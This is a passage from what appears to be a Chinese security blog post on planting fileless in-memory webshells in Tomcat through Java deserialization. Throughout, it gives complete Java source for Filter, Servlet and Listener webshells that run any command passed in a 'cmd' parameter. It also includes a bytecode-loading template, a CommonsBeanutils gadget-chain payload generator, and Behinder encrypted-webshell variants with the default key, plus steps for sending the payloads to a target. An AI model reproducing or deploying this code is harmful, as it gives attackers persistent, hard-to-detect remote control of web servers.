            Process process = Runtime.getRuntime().exec(cmd);
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                    new java.io.InputStreamReader(process.getInputStream()));
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
            }
            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
            servletResponse.getOutputStream().flush();
            servletResponse.getOutputStream().close();
            return;
        }
        filterChain.doFilter(servletRequest, servletResponse);
    }

    @Override
    public void destroy() {

    }
}
```
### 简单分析
首先将第一步中存入的 request 进行取出
在下面这个静态方法中就是获取对应的ServletContext，当然需要配合第一步的已经修改WRAP_SAME_OBJECT 值为 true

在利用取出的 request 获取到 servletContext 后，就会调用 addFilter 来动态添加

然后在doFilter()函数里完成逻辑就行

### 测试
在这里使用[Y4er——ysoserial](https://github.com/Y4er/ysoserial)大哥修改过的ysoserial，在其中我提取ClassLoaderTemplate，在项目中加入该jar包
```java
package com.myproject.temp;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Method;
import java.net.URL;
import java.net.URLClassLoader;
import java.util.zip.GZIPInputStream;

public class ClassLoaderTemplate {
    static String b64;

    static {
        try {
            GZIPInputStream gzipInputStream = new GZIPInputStream(new ByteArrayInputStream(base64Decode(b64)));
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            byte[] bs = new byte[4096];
            int read;
            while ((read = gzipInputStream.read(bs)) != -1) {
                byteArrayOutputStream.write(bs, 0, read);
            }
            byte[] bytes = byteArrayOutputStream.toByteArray();
            ClassLoader classLoader = new URLClassLoader(new URL[0], Thread.currentThread().getContextClassLoader());
            Method defineClass = classLoader.getClass().getSuperclass().getSuperclass().getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
            defineClass.setAccessible(true);
            Class invoke = (Class) defineClass.invoke(classLoader, bytes, 0, bytes.length);
            invoke.newInstance();
        } catch (Exception e) {
            // e.printStackTrace();
        }
    }

    public static byte[] base64Decode(String bs) throws Exception {
        Class base64;
        byte[] value = null;
        try {
            base64 = Class.forName("java.util.Base64");
            Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);
            value = (byte[]) decoder.getClass().getMethod("decode", new Class[]{String.class}).invoke(decoder, new Object[]{bs});
        } catch (Exception e) {
            try {
                base64 = Class.forName("sun.misc.BASE64Decoder");
                Object decoder = base64.newInstance();
                value = (byte[]) decoder.getClass().getMethod("decodeBuffer", new Class[]{String.class}).invoke(decoder, new Object[]{bs});
            } catch (Exception e2) {
            }
        }
        return value;
    }
}
```
然后我们编写序列化代码，这里我直接使用CB1链，分别将TomcatEcho.class，TomcatInject.class序列化成TomcatEcho.ser，TomcatInject.ser
```java
package com.myproject.temp;

import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassClassPath;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.beanutils.BeanComparator;
import org.apache.commons.codec.binary.Base64;
import org.apache.wicket.util.file.Files;

import java.io.*;
import java.lang.reflect.Field;
import java.math.BigInteger;
import java.util.PriorityQueue;
import java.util.zip.GZIPOutputStream;

public class Test_3 {
    public Test_3() {

    }

    public static void main(String[] args) throws Exception {
        byte[] ctBytes = Files.readBytes(new File("/Users/aaronluo/Documents/Code/JavaCode/fastjson80/target/classes/com/fastjson/test/TomcatEcho.class"));
    //  
        byte[] ctBytes = Files.readBytes(new File("/Users/aaronluo/Documents/Code/JavaCode/fastjson80/target/classes/com/fastjson/test/TomcatInject.class"));
        ClassPool pool = ClassPool.getDefault();
        pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
        CtClass superC = pool.get(AbstractTranslet.class.getName());
        CtClass ctClass;
        ctClass = pool.get("com.myproject.temp.ClassLoaderTemplate");
        ctClass.setName(ctClass.getName() + System.nanoTime());
        ByteArrayOutputStream outBuf = new ByteArrayOutputStream();
        GZIPOutputStream gzipOutputStream = new GZIPOutputStream(outBuf);
        gzipOutputStream.write(ctBytes);
        gzipOutputStream.close();
        String content = "b64=\"" + Base64.encodeBase64String(outBuf.toByteArray()) + "\";";
        ctClass.makeClassInitializer().insertBefore(content);
        ctClass.setSuperclass(superC);
        ctClass.writeFile();
        byte[] classBytes = ctClass.toBytecode();
        byte[][] targetByteCodes = new byte[][]{classBytes};
        TemplatesImpl templates = TemplatesImpl.class.newInstance();
        Field f = templates.getClass().getDeclaredField("_name");
        f.setAccessible(true);
        f.set(templates, "123");

        Field f1 = templates.getClass().getDeclaredField("_bytecodes");
        f1.setAccessible(true);
        f1.set(templates, targetByteCodes);

        Field f2 = templates.getClass().getDeclaredField("_class");
        f2.setAccessible(true);
        f2.set(templates, null);
        BeanComparator comparator = new BeanComparator("lowestSetBit");
        PriorityQueue<Object> queue = new PriorityQueue<Object>(2, comparator);
        queue.add(new BigInteger("1"));
        queue.add(new BigInteger("1"));

        Field f3 = comparator.getClass().getDeclaredField("property");
        f3.setAccessible(true);
        f3.set(comparator,"outputProperties");

        Field f4 = queue.getClass().getDeclaredField("queue");
        f4.setAccessible(true);
        Object[] queueArray = (Object[]) f4.get(queue);
        queueArray[0] = templates;
        queueArray[1] = templates;

        try{
           FileOutputStream fileOutputStream = new FileOutputStream("tomcatEcho.ser");
           ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
           objectOutputStream.writeObject(queue);
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}

```
然后对应将TomcatEcho.ser，TomcatInject.ser 通过Base64编码一下

然后再分别发送至服务器（在参数里切记一定要url编码一次）


然后在web根路径下，带入参数cmd，并执行命令，如下所示


### 注入冰蝎马
注入冰蝎马这里需要注意，虽然只是修改filter逻辑，在doFilter()编写冰蝎马逻辑
首先查看Behinder_v3.0_Beta_9中的shell.jsp代码
```java
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*" %>
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
%>
<%
    if (request.getMethod().equals("POST")) {
        String k = "e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/
        session.putValue("u", k);
        Cipher c = Cipher.getInstance("AES");
        c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
        new U(this.getClass().getClassLoader()).g(
            c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine())))
            .newInstance().equals(pageContext);
    }
%>
```
冰蝎自定义了一个可以解析class字节数组的类加载器U，逻辑为，使用g方法调用super.defineClass，可以将byte[]直接转换为Class对象
```java
class U extends ClassLoader {
    U(ClassLoader c) {
        super(c);
    }
    public Class g(byte[] b) {
        return super.defineClass(b, 0, b.length);
    }
}
```
判断为post请求后，读取请求体中的数据，拿到进行Base64+AES解码后的字节码数据。
```java
if (request.getMethod().equals("POST")) {
    String k = "e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/
    session.putValue("u", k);
    Cipher c = Cipher.getInstance("AES");
    c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
    new U(this.getClass().getClassLoader()).g(
        c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine())))
        .newInstance().equals(pageContext);
}
```
#### request和session对象
request对象可以通过其doFilter方法参数中传递的ServletRequest获得，而session可以通过request.getSession()获得
```java
HttpServletRequest request = (HttpServletRequest) servletRequest;
HttpServletResponse response = (HttpServletResponse)servletResponse;
HttpSession session = request.getSession();
```
#### pageContext对象
pageContext对象为jsp九大内置对象，在冰蝎作者[rebeyond](https://xz.aliyun.com/u/8697)的文章[利用动态二进制加密实现新型一句话木马之Java篇](https://xz.aliyun.com/t/2744)中知道，在冰蝎的代码中，服务端需要从pageContext对象中获取出request/response/session。
而在冰蝎3.0 bata7之后不再依赖pageContext对象，只需给在equal函数中传递的object对象中，有request/response/session对象即可，所以此时我们可以把pageContext对象换成一个Map，手动添加这三个对象即可
```java
HashMap pageContext = new HashMap();
pageContext.put("request",request);
pageContext.put("response",response);
pageContext.put("session",session);
```
如果如下图所示，在TomcatInject.java里再写一个类U来继承ClassLoader，在编译之后会生成两个Class文件，导致无法调用class U中的方法



因为我们不能实例化自己的类加载器，所以我们就使用反射的方法，调用ClassLoader，不过这里也有一个坑点，就是抽象类，是不可以作为invoke()的第一个参数，所以要使用一个他的继承类作为替代品，代码如下
```java
//revision BehinderFilter
Method method = Class.forName("java.lang.ClassLoader").getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
method.setAccessible(true);
byte[] evilclass_byte = c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()));
Class evilclass = (Class) method.invoke(this.getClass().getClassLoader(), evilclass_byte,0, evilclass_byte.length);
evilclass.newInstance().equals(pageContext);
```
最后doFilter中注入冰蝎马如下所示
```java
// doFilter逻辑
public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
    try {
        System.out.println("Do Filter ......");
        // 获取request和response对象
        HttpServletRequest request = (HttpServletRequest) servletRequest;
        HttpServletResponse response = (HttpServletResponse)servletResponse;
        HttpSession session = request.getSession();
        //create pageContext
        HashMap pageContext = new HashMap();
        pageContext.put("request",request);
        pageContext.put("response",response);
        pageContext.put("session",session);
        if (request.getMethod().equals("POST")) {
            String k = "e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/
            session.putValue("u", k);
            Cipher c = Cipher.getInstance("AES");
            c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
            //revision BehinderFilter
            Method method = Class.forName("java.lang.ClassLoader").getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
            method.setAccessible(true);
            byte[] evilclass_byte = c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()));
            Class evilclass = (Class) method.invoke(this.getClass().getClassLoader(), evilclass_byte,0, evilclass_byte.length);
            evilclass.newInstance().equals(pageContext);
        }
    }catch (Exception e){
        e.printStackTrace();
    }
    filterChain.doFilter(servletRequest, servletResponse);
    System.out.println("doFilter");
}
```
编译生成对应的TomcatEcho.class,TomcatInject.class，然后通过序列化生成对应的TomcatEcho.ser,TomcatInject.ser,最后通过反序列化漏洞直接在目标web系统中反序列化最后成功注入冰蝎马

## 反序列化注入Servlet
在[Tomcat基础内存马入门](https://www.yuque.com/da-labs/secnotes/ro4qph)中，Tomcat注入内存马中除了注入Filter，还可以注入Servlet
其中基本思路不变，只是需要获取request，然后从request中获取ServletContext，然后依次获取ApplicationContext、StandardContext，最后将servlet封装成wrapper再使用context添加ServletMapping，就可以了
### 注入普通马
```java
package com.fastjson.test;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

/**
 * @author threedr3am
 */
public class TomcatEcho extends AbstractTranslet {

    static {
        try {
            /*刚开始反序列化后执行的逻辑*/
            //修改 WRAP_SAME_OBJECT 值为 true
            Class c = Class.forName("org.apache.catalina.core.ApplicationDispatcher");
            java.lang.reflect.Field f = c.getDeclaredField("WRAP_SAME_OBJECT");
            java.lang.reflect.Field modifiersField = f.getClass().getDeclaredField("modifiers");
            modifiersField.setAccessible(true);
            modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
            f.setAccessible(true);
            if (!f.getBoolean(null)) {
                f.setBoolean(null, true);
            }

            //初始化 lastServicedRequest
            c = Class.forName("org.apache.catalina.core.ApplicationFilterChain");
            f = c.getDeclaredField("lastServicedRequest");
            modifiersField = f.getClass().getDeclaredField("modifiers");
            modifiersField.setAccessible(true);
            modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
            f.setAccessible(true);
            if (f.get(null) == null) {
                f.set(null, new ThreadLocal());
            }

            //初始化 lastServicedResponse
            f = c.getDeclaredField("lastServicedResponse");
            modifiersField = f.getClass().getDeclaredField("modifiers");
            modifiersField.setAccessible(true);
            modifiersField.setInt(f, f.getModifiers() & ~java.lang.reflect.Modifier.FINAL);
            f.setAccessible(true);
            if (f.get(null) == null) {
                f.set(null, new ThreadLocal());
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}
```
在这里需要注意的是，TomcatInjectServlet 需要实现Servlet接口，和Filter一样，因为需要被TemplatesImpl类来加载，所以需要继承AbstractTranslet类
```java
package com.fastjson.test;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;

import javax.servlet.*;
import java.io.IOException;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

public class TomcatInjectServlet extends AbstractTranslet implements Servlet {
    /**
     * webshell命令参数名
     */
    private final static String servletUrlPattern = "/*";
    private final static String servletName = "test";

    static {
        try {
            ServletContext servletContext = getServletContext();
            if (servletContext != null) {
                Field appctx = servletContext.getClass().getDeclaredField("context");
                appctx.setAccessible(true);
                ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
                Field stdctx = applicationContext.getClass().getDeclaredField("context");
                stdctx.setAccessible(true);
                StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
                Servlet demo = new TomcatInjectServlet();
                org.apache.catalina.Wrapper demoWrapper = standardContext.createWrapper();
                //设置Servlet名等
                demoWrapper.setName(servletName);
                demoWrapper.setLoadOnStartup(1);
                demoWrapper.setServlet(demo);
                demoWrapper.setServletClass(demo.getClass().getName());
                standardContext.addChild(demoWrapper);
                //设置ServletMap
                standardContext.addServletMapping(servletUrlPattern, servletName);
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static ServletContext getServletContext() throws NoSuchFieldException, IllegalAccessException, ClassNotFoundException {
        ServletRequest servletRequest = null;
        /*shell注入，前提需要能拿到request、response等*/
        Class c = Class.forName("org.apache.catalina.core.ApplicationFilterChain");
        java.lang.reflect.Field f = c.getDeclaredField("lastServicedRequest");
        f.setAccessible(true);
        ThreadLocal threadLocal = (ThreadLocal) f.get(null);
        //不为空则意味着第一次反序列化的准备工作已成功
        if (threadLocal != null && threadLocal.get() != null) {
            servletRequest = (ServletRequest) threadLocal.get();
        }
        //如果不能去到request，则换一种方式尝试获取

        //spring获取法1
        if (servletRequest == null) {
            try {
                c = Class.forName("org.springframework.web.context.request.RequestContextHolder");
                Method m = c.getMethod("getRequestAttributes");
                Object o = m.invoke(null);
                c = Class.forName("org.springframework.web.context.request.ServletRequestAttributes");
                m = c.getMethod("getRequest");
                servletRequest = (ServletRequest) m.invoke(o);
            } catch (Throwable t) {
            }
        }
        if (servletRequest != null) return servletRequest.getServletContext();

        //spring获取法2
        try {
            c = Class.forName("org.springframework.web.context.ContextLoader");
            Method m = c.getMethod("getCurrentWebApplicationContext");
            Object o = m.invoke(null);
            c = Class.forName("org.springframework.web.context.WebApplicationContext");
            m = c.getMethod("getServletContext");
            ServletContext servletContext = (ServletContext) m.invoke(o);
            return servletContext;
        } catch (Throwable t) {
        }
        return null;
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void init(ServletConfig servletConfig) throws ServletException {

    }

    @Override
    public ServletConfig getServletConfig() {
        return null;
    }

    @Override
    public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
        String cmd = servletRequest.getParameter("cmd");
        if (cmd != null) {
            System.out.println("do Service");
            Process process = Runtime.getRuntime().exec(cmd);
            java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                    new java.io.InputStreamReader(process.getInputStream()));
            StringBuilder stringBuilder = new StringBuilder();
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                stringBuilder.append(line + '\n');
            }
            servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
            servletResponse.getOutputStream().flush();
            servletResponse.getOutputStream().close();
            return;
        }
    }

    @Override
    public String getServletInfo() {
        return null;
    }

    @Override
    public void destroy() {

    }
}

```
编译生成对应的TomcatEcho.class,TomcatInjectServlet.class，然后通过序列化生成对应的TomcatEcho.ser,TomcatInjectServlet.ser,最后通过反序列化漏洞直接在目标web系统中反序列化最后成功注入


### 注入冰蝎马
在这里使用/xyz用于区别Filter的冰蝎马，实现原理同Filter，只是实现Servlet接口中的service()方法
```java
@Override
public void service(ServletRequest servletRequest, ServletResponse servletResponse) throws ServletException, IOException {
    try {
        System.out.println("do service");
        // 获取request和response对象
        HttpServletRequest request = (HttpServletRequest) servletRequest;
        HttpServletResponse response = (HttpServletResponse) servletResponse;
        HttpSession session = request.getSession();
        //create pageContext
        HashMap pageContext = new HashMap();
        pageContext.put("request", request);
        pageContext.put("response", response);
        pageContext.put("session", session);


        if (request.getMethod().equals("POST")) {
            String k = "e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/
            session.putValue("u", k);
            Cipher c = Cipher.getInstance("AES");
            c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
            //revision BehinderFilter
            Method method = Class.forName("java.lang.ClassLoader").getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
            method.setAccessible(true);
            byte[] evilclass_byte = c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()));
            Class evilclass = (Class) method.invoke(this.getClass().getClassLoader(), evilclass_byte,0, evilclass_byte.length);
            evilclass.newInstance().equals(pageContext);
            return;
        }
    } catch (Exception e) {
        e.printStackTrace();
    }
}
```

## 反序列化注入Listener
在[Tomcat基础内存马入门](https://www.yuque.com/da-labs/secnotes/ro4qph)中，Tomcat注入内存马中除了注入Filter，Servlet，还有Listener，但是在该篇中对request理解并不深，未深入研究是否可以回显，在此处发现可以通过request获取response
```java
@Override
public void requestInitialized(ServletRequestEvent servletRequestEvent) {
    try{
        HttpServletRequest req = (HttpServletRequest) servletRequestEvent.getServletRequest();
        Field requestF = req.getClass().getDeclaredField("request");
        requestF.setAccessible(true);
        Request request = (Request)requestF.get(req);
        HttpServletResponse response = request.getResponse();
        // 执行命令部分...
    }catch (Exception e){
        e.printStackTrace();
    }
}
```
### 注入普通马
对应的TomcatInjectListener
```java
package com.fastjson.test;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import org.apache.catalina.connector.Request;
import org.apache.catalina.core.ApplicationContext;
import org.apache.catalina.core.StandardContext;

import javax.servlet.ServletContext;
import javax.servlet.ServletRequest;
import javax.servlet.ServletRequestEvent;
import javax.servlet.ServletRequestListener;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

public class TomcatInjectListener extends AbstractTranslet implements ServletRequestListener {
    private final static String servletUrlPattern = "/";
    private final static String servletName = "test";
    static {
        try {
            ServletContext servletContext = getServletContext();
            if (servletContext != null) {
                Field appctx = servletContext.getClass().getDeclaredField("context");
                appctx.setAccessible(true);
                ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);
                Field stdctx = applicationContext.getClass().getDeclaredField("context");
                stdctx.setAccessible(true);
                StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);
                ServletRequestListener listener = new TomcatInjectListener();
                standardContext.addApplicationEventListener(listener);
            }
        }catch (Exception e){
            e.printStackTrace();
        }
    }
    private static ServletContext getServletContext() throws NoSuchFieldException, IllegalAccessException, ClassNotFoundException {
        ServletRequest servletRequest = null;
        /*shell注入，前提需要能拿到request、response等*/
        Class c = Class.forName("org.apache.catalina.core.ApplicationFilterChain");
        java.lang.reflect.Field f = c.getDeclaredField("lastServicedRequest");
        f.setAccessible(true);
        ThreadLocal threadLocal = (ThreadLocal) f.get(null);
        //不为空则意味着第一次反序列化的准备工作已成功
        if (threadLocal != null && threadLocal.get() != null) {
            servletRequest = (ServletRequest) threadLocal.get();
        }
        //如果不能去到request，则换一种方式尝试获取

        //spring获取法1
        if (servletRequest == null) {
            try {
                c = Class.forName("org.springframework.web.context.request.RequestContextHolder");
                Method m = c.getMethod("getRequestAttributes");
                Object o = m.invoke(null);
                c = Class.forName("org.springframework.web.context.request.ServletRequestAttributes");
                m = c.getMethod("getRequest");
                servletRequest = (ServletRequest) m.invoke(o);
            } catch (Throwable t) {
            }
        }
        if (servletRequest != null) return servletRequest.getServletContext();

        //spring获取法2
        try {
            c = Class.forName("org.springframework.web.context.ContextLoader");
            Method m = c.getMethod("getCurrentWebApplicationContext");
            Object o = m.invoke(null);
            c = Class.forName("org.springframework.web.context.WebApplicationContext");
            m = c.getMethod("getServletContext");
            ServletContext servletContext = (ServletContext) m.invoke(o);
            return servletContext;
        } catch (Throwable t) {
        }
        return null;
    }
    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void requestDestroyed(ServletRequestEvent servletRequestEvent) {

    }

    @Override
    public void requestInitialized(ServletRequestEvent servletRequestEvent) {
        try{
            HttpServletRequest req = (HttpServletRequest) servletRequestEvent.getServletRequest();
            Field requestF = req.getClass().getDeclaredField("request");
            requestF.setAccessible(true);
            Request request = (Request)requestF.get(req);
            //通过resquest获取response
            HttpServletResponse response = request.getResponse();
            String cmd = request.getParameter("cmd");
            if (cmd != null){
                Process process = Runtime.getRuntime().exec(cmd);
                java.io.BufferedReader bufferedReader = new java.io.BufferedReader(
                        new java.io.InputStreamReader(process.getInputStream()));
                StringBuilder stringBuilder = new StringBuilder();
                String line;
                while ((line = bufferedReader.readLine()) != null) {
                    stringBuilder.append(line + '\n');
                }
                response.getOutputStream().write(stringBuilder.toString().getBytes());
                response.getOutputStream().flush();
                response.getOutputStream().close();
                return;
            }
        }catch (Exception e){
            e.printStackTrace();
        }
    }
}

```
编译生成对应的TomcatEcho.class,TomcatInjectListener.class，然后通过序列化生成对应的TomcatEcho.ser,TomcatInjectListener.ser,最后通过反序列化漏洞直接在目标web系统中反序列化最后成功注入


### 注入冰蝎马
在这里只需要修改Listener的逻辑，为冰蝎马逻辑即可
```java
@Override
public void requestInitialized(ServletRequestEvent servletRequestEvent) {
    try{
        System.out.println("do Linstener");
        HttpServletRequest req = (HttpServletRequest) servletRequestEvent.getServletRequest();
        Field requestF = req.getClass().getDeclaredField("request");
        requestF.setAccessible(true);
        org.apache.catalina.connector.Request request = (org.apache.catalina.connector.Request)requestF.get(req);
        HttpServletResponse response = request.getResponse();
        HttpSession session = request.getSession();
        //create pageContext
        HashMap pageContext = new HashMap();
        pageContext.put("request", request);
        pageContext.put("response", response);
        pageContext.put("session", session);
        if (request.getMethod().equals("POST")) {
            String k = "e45e329feb5d925b";/*该密钥为连接密码32位md5值的前16位，默认连接密码rebeyond*/
            session.putValue("u", k);
            Cipher c = Cipher.getInstance("AES");
            c.init(2, new SecretKeySpec(k.getBytes(), "AES"));
            //revision BehinderFilter
            Method method = Class.forName("java.lang.ClassLoader").getDeclaredMethod("defineClass", byte[].class, int.class, int.class);
            method.setAccessible(true);
            byte[] evilclass_byte = c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()));
            Class evilclass = (Class) method.invoke(this.getClass().getClassLoader(), evilclass_byte,0, evilclass_byte.length);
            evilclass.newInstance().equals(pageContext);
            return;
        }

    }catch (Exception e){
        e.printStackTrace();
    }
}
```

## 参考链接
[P1n93r-Tomcat 架构原理](https://p1n93r.github.io/post/java/tomcat%E6%9E%B6%E6%9E%84%E5%8E%9F%E7%90%86/)

[threedr3am-基于tomcat的内存 Webshell 无文件攻击技术](https://xz.aliyun.com/t/7388#toc-2)

[天下大木头-Tomcat内存马学习（二）](http://wjlshare.com/archives/1541)

[洋洋-利用shiro反序列化注入冰蝎内存马](https://xz.aliyun.com/t/10696)

[https://www.bbsmax.com/A/x9J2X9Dnd6/](https://www.bbsmax.com/A/x9J2X9Dnd6/)

